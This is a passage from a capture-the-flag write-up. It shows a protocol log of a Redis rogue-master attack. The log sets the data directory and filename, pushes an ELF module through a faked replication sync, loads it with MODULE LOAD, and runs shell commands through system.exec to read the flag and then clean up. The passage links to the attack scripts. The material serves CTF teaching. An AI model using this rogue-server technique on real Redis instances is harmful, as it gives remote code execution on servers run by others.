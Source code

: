 ```python
[<-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$3\r\nDIR\r\n$4\r\n/tmp\r\n'
[->] b'+OK\r\n'
[<-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
[->] b'+OK\r\n'
[->] b'PING\r\n'
[<-] b'+PONG\r\n'
[->] b'REPLCONF listening-port 6379\r\n'
[<-] b'+OK\r\n'
[->] b'REPLCONF capa eof capa psync2\r\n'
[<-] b'+OK\r\n'
[->] b'PSYNC 1a6db93c270f1d9052f04a3372f80755954ab0da 1\r\n'
[<-] b'+FULLRESYNC ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ 1\r\n$47856\r\n\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00'......b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x11\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x19\xb4\x00\x00\x00\x00\x00\x00\xd3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\r\n'
[<-] b'*3\r\n$6\r\nMODULE\r\n$4\r\nLOAD\r\n$11\r\n/tmp/exp.so\r\n'
[->] b'+OK\r\n'
[<-] b'*3\r\n$7\r\nSLAVEOF\r\n$2\r\nNO\r\n$3\r\nONE\r\n'
[->] b'+OK\r\n'
[<<] cat /flag.txt
[<-] b'*2\r\n$11\r\nsystem.exec\r\n$27\r\n"cat /flag.txt"\r\n'
[->] b'$44\r\nflag{ar3nt_u_STUNned_any_t3ch_w0rks_@_all?}\n\r\n'
[>>] flag{ar3nt_u_STUNned_any_t3ch_w0rks_@_all?}
[<<] ^C[<-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$8\r\ndump.rdb\r\n'
[->] b'+OK\r\n'
[<-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$3\r\ndir\r\n$4\r\n/app\r\n'
[->] b'+OK\r\n'
[<-] b'*2\r\n$11\r\nsystem.exec\r\n$14\r\nrm /tmp/exp.so\r\n'
[->] b'$0\r\n\r\n'
[<-] b'*3\r\n$6\r\nMODULE\r\n$6\r\nUNLOAD\r\n$6\r\nsystem\r\n'
[->] b'+OK\r\n'
```

Looking at the output, it looks as if everything went to plan!  We get an interactive shell after the connection and can run `cat /flag.txt` in order to
retrieve the flag.  When we hit CTRL+C to cancel the interactivity for the rogue server, it sends clean up commands, restoring the original state.

The full `redis-proxy.py` script is available at https://github.com/zoeyg/public-write-ups/blob/master/csaw-2020/redis-proxy.py, and the modified `redis-rogue-server.py` script is available at https://github.com/zoeyg/public-write-ups/blob/master/csaw-2020/redis-rogue-server.py.